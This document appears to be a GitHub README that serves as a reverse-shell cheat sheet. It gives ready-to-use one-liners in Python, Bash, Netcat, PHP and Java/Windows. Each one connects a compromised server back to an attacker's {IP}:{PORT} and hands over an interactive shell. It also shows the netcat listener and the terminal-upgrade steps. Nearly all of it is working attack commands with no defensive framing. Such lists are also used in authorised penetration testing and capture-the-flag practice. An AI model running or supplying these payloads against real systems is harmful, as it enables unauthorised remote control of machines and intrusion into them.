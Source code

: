 Reverse-Shell
=============

A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine
To listen for an incoming connection and upgrade to a pty shell:
```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then, `Ctrl-Z` and type:
```bash
stty raw -echo
```

The console should be black, next foreground the shell with `fg` then
reinitialize the terminal with `reset`.


## On the remote server

### Windows
```bash
> cmd.exe /C <cmd>
```

### Python
```bash
python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"{IP}\\",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
String[] cmd={"cmd","/C","<cmd>"};Runtime.getRuntime().exec(cmd);
```

This payload can also work with `BeanShell` scripts.


### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```

